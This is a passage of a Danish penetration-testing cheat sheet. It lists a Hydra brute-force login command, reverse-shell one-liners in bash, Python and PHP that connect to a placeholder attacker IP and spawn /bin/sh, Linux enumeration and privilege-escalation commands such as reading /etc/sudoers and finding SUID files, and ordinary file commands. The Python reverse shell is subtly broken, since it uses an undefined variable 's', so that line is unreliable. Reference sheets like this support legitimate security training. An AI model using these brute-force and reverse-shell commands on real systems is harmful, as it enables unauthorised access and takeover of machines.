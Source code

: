 | `hydra -l <user> -P <wordlist> <ip> <service>`                   | Brute-force login mod service med ordliste.                | `-l`: Specificér enkelt username.<br>`-P`: Ordlistens sti.    |

## Reverse Shell Eksempler
| Reverse Shell Eksempler | Beskrivelse |
|-------------------------|-------------|
| `bash -i >& /dev/tcp/<ip>/<port> 0>&1` | Enkel bash reverse shell |
| `python3 -c 'import socket,subprocess,os;socket.socket(socket.AF_INET,socket.SOCK_STREAM).connect(("IP",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` | Python reverse shell (lang version) |
| `php -r '$sock=fsockopen("IP",PORT);exec("/bin/sh -i <&3 >&3 2>&1");'` | PHP reverse shell |

## Linux Enumeration & Privilege Escalation
| Kommando | Beskrivelse |
|----------|-------------|
| `uname -a`                             | Viser information om systemet (OS, kerneversion m.m.).            |
| `cat /etc/issue`                       | Viser information om operativsystemets distribution.              |
| `cat /etc/passwd`                      | Lister alle systembrugere.                                        |
| `sudo -l`                              | Viser hvilke kommandoer brugeren kan køre med root/sudo-rettigheder.                                                                                                                                                |
| `id`                                   | Viser nuværende brugers ID samt gruppetilhørsforhold.             |
| `crontab -l`                           | Lister cronjobs (planlagte opgaver) for nuværende bruger.         |
| `cat /etc/crontab`                     | Viser systemets cronjobs, som muligvis kører med højere privilegier. |
| `find / -perm -4000 2>/dev/null`       | Finder alle filer med SUID-bit sat (kan udnyttes til privilege escalation). |
| `cat /etc/sudoers`                     | Viser konfiguration af sudo-privilegier på systemet.              |

## Filhåndtering
| Kommando | Beskrivelse | Nyttige flags |
|----------|-------------|---------------|
| `ls`                            | Lister filer og mapper                   | `-l`: detaljeret visning<br>`-a`: vis skjulte filer |
| `pwd`                           | Viser nuværende mappe                    | Ingen flags nødvendige                |
| `cd <mappe>`                    | Skifter mappe                            | Brug `..` for mappe op                |
| `cat <fil>`                     | Viser indhold af en fil                  | Ingen flags nødvendige                |
| `nano <fil>`                    | Enkel teksteditor til at redigere filer  | Ingen flags nødvendige                |
| `touch <fil>`                   | Opretter tom fil                         | Ingen flags nødvendige                |
| `mkdir <mappe>`                 | Opretter en ny mappe                     | `-p`: opretter mellemmapper           |
| `rm <fil>`                      | Sletter fil                              | `-r`: rekursivt (mapper)<br>`-f`: tvinger sletning |
| `cp <fra> <til>`                | Kopierer filer og mapper                 | `-r`: kopierer mapper                 |
| `mv <fra> <til>`                | Flytter eller omdøber filer/mapper       | Ingen flags nødvendige                |
| `grep <søgetekst> <fil>`        | Søger efter tekst i fil(er)              | `-i`: ignorer store/små bogstaver<br>`-r`: rekursiv søgning |
| `chmod <rettigheder> <fil>`     | Ændrer filrettigheder                    | Eksempel: `chmod +x fil.sh` (gør fil eksekverbar) |
| `chown <bruger>:<gruppe> <fil>` | Ændrer ejer og gruppe af fil             | Eksempel: `chown root:root fil.txt`   |
| `whoami`                        | Viser nuværende brugernavn               | Ingen flags nødvendige                |
| `ifconfig` eller `ip a`         | Viser netværksinformation                | Ingen flags nødvendige                |
| `scp <fil> bruger@host:/sti`    | Kopierer filer over SSH                  | Eksempel: `scp data.txt user@192.168.1.10:/tmp/` |
